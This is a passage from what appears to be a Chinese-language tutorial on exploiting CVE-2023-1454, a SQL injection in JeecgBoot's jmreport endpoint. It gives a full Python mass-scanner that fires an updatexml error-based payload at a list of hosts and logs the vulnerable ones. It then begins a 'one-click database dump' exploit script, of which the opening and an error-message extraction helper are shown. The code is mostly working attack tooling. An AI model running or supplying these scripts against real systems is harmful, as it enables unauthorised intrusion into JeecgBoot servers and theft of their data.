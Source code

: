   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    import argparseimport timeimport requestsfrom urllib.parse import urlsplitimport string  
    # 读取URL文件，处理urldef get_url(file):    with open('{}'.format(file),'r',encoding='utf-8') as f:        for url in f:            url = url.replace('\n', '')            if "http" not in url:                url = "http://" + url            parsed_url = urlsplit(url)            base_url = parsed_url.scheme + "://" + parsed_url.netloc            send_req(base_url)  
    # 在文件中记录存在漏洞的url            def write_result(content):    f = open("result.txt", "a", encoding="UTF-8")    f.write('{}\n'.format(content))    f.close()  
    # 发送POC数据包请求def send_req(url_check):    print('{} runing Check'.format(url_check))  
        url = url_check + '/jeecg-boot/jmreport/qurestSql'    header = {        'User-Agent':'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36 Edg/110.0.1587.69',        'Content-Type':'application/json'    }    data = """    {"apiSelectId":"1316997232402231298","id":"1' or '%1%' like (updatexml(0x3a,concat(0x23,(select current_user)),0x23)) or '%%' like '"}    """    try:        requests.packages.urllib3.disable_warnings()        response = requests.post(url=url,headers=header,data=data,verify=False,timeout=3)        if response.status_code == 200 and "XPATH syntax error" in response.text:            result = '{} 存在CVE-2023-1454漏洞! \n'.format(url_check)            print(result)            write_result(result)        time.sleep(1)    except Exception as e:        print(e)        pass  
    if __name__ == '__main__':    file = r"C:\Users\DELL\Desktop\1.txt"    get_url(file)

在桌面新建文件1.txt,写入靶场地址，使用jupyter运行上述代码

![]()

八、漏洞利用

Sqlmap无法直接利用这个漏洞，下面是个一键拖库的脚本

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    import argparseimport timeimport requestsfrom urllib.parse import urlsplitimport stringimport jsonimport re  
    # 在文件中记录存在漏洞的url            def write_result(content):    f = open("result.txt", "a", encoding="UTF-8")    f.write('{}\n'.format(content))    f.close()  
    # 从报错信息中提取内容def extract_content(json_str):    # 将JSON字符串解析为Python字典    data = json.loads(json_str)    # 提取message字段中的#root@%内容    message = data.get("message", "")    errors = message.split("XPATH syntax error: '#")    # 获取切分后数组的最后一个值    value = errors[-1].strip()[:-1]    return value  
      